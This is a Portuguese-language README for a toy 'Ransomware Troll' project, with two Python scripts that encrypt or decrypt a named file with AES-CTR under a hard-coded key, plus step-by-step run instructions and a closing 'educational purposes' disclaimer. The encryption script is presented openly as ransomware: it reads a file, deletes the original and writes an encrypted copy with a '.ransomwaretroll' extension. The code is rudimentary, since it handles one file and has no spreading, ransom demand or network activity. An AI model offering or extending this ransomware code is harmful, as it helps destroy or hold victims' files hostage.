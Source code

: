 # Documentação do Ransomware Troll

Esta documentação fornece informações sobre o Ransomware Troll, um programa de criptografia de arquivos malicioso, e mostra como descriptografar arquivos que foram afetados por ele. Este documento inclui uma descrição detalhada dos códigos base necessários para descriptografar e criptografar arquivos afetados pelo Ransomware Troll.

## Descrição

O Ransomware Troll é um tipo de malware que criptografa arquivos presentes em um sistema e exige um resgate para fornecer a chave de descriptografia. Os códigos apresentados aqui são soluções para descriptografar arquivos afetados pelo Ransomware Troll e também para criptografar arquivos usando o mesmo método de criptografia.

## Pré-requisitos

Antes de executar os códigos de descriptografia e criptografia, é necessário ter o Python instalado em seu sistema. Além disso, você deve ter a biblioteca `pyaes` instalada. Você pode instalá-la usando o comando `pip install pyaes`.

## Código de Descriptografia

Aqui está o código base que pode ser usado para descriptografar arquivos criptografados pelo Ransomware Troll:

```python
import os
import pyaes

# Nome do arquivo criptografado
file_name = "arquivo.txt.ransomwaretroll"

# Abrir o arquivo criptografado em modo de leitura binária
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Chave para descriptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Realizar a descriptografia
decrypt_data = aes.decrypt(file_data)

# Remover o arquivo criptografado
os.remove(file_name)

# Criar o arquivo descriptografado
new_file = "arquivo.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```

Certifique-se de substituir `"arquivo.txt.ransomwaretroll"` pelo nome do arquivo criptografado real que você deseja descriptografar e `"testeransomwares"` pela chave correta de descriptografia fornecida pelo atacante.

## Código de Criptografia

Aqui está o código base que pode ser usado para criptografar arquivos usando o Ransomware Troll:

```python
import os
import pyaes

# Nome do arquivo a ser criptografado
file_name = "arquivo.txt"

# Abrir o arquivo em modo de leitura binária
file = open(file_name, "rb")
file_data = file.read()
file.close()

# Remover o arquivo original
os.remove(file_name)

# Chave para criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Realizar a criptografia
crypto_data = aes.encrypt(file_data)

# Nome do novo arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()
```

Certifique-se de substituir `"arquivo.txt"` pelo nome do arquivo que você deseja criptografar e `"testeransomwares"` pela chave correta de criptografia. O código criptografará o arquivo selecionado e salvará uma versão criptografada com a extensão `.ransom

waretroll`.

## Instruções

Para descriptografar um arquivo afetado pelo Ransomware Troll, siga estas etapas:

1. Verifique se você tem o Python instalado em seu sistema.

2. Instale a biblioteca `pyaes` usando o comando `pip install pyaes`.

3. Copie o código de descriptografia fornecido acima e cole-o em um novo arquivo Python.

4. Abra o arquivo Python em um editor de texto e modifique a linha `file_name = "arquivo.txt.ransomwaretroll"` para corresponder ao nome do arquivo criptografado que você deseja descriptografar.

5. Verifique se a chave correta de descriptografia está definida na linha `key = b"testeransomwares"`. Se o atacante tiver fornecido uma chave diferente, atualize-a aqui.

6. Salve o arquivo Python com um nome adequado, por exemplo, `descriptografar.py`.

7. Abra o terminal ou prompt de comando e navegue até o diretório onde você salvou o arquivo Python.

8. Execute o arquivo Python digitando o seguinte comando: `python descriptografar.py`.

9. O código descriptografará o arquivo e removerá o arquivo criptografado original.

10. Verifique se o arquivo descriptografado foi criado corretamente.

Para criptografar um arquivo usando o Ransomware Troll, siga as mesmas etapas de 1 a 7 acima, mas substitua o código de descriptografia pelo código de criptografia fornecido. Certifique-se de fornecer o nome do arquivo que você deseja criptografar e a chave correta de criptografia. O arquivo criptografado será salvo com a extensão `.ransomwaretroll`.

**Nota:** É importante ressaltar que esta solução foi fornecida apenas para fins educacionais e de pesquisa, e não é incentivado o uso de ransomware ou atividades ilegais. A descriptografia de arquivos criptografados por ransomware só é possível se você tiver acesso à chave correta de descriptografia. Recomenda-se que você procure assistência de profissionais de segurança cibernética ao lidar com ataques de ransomware.
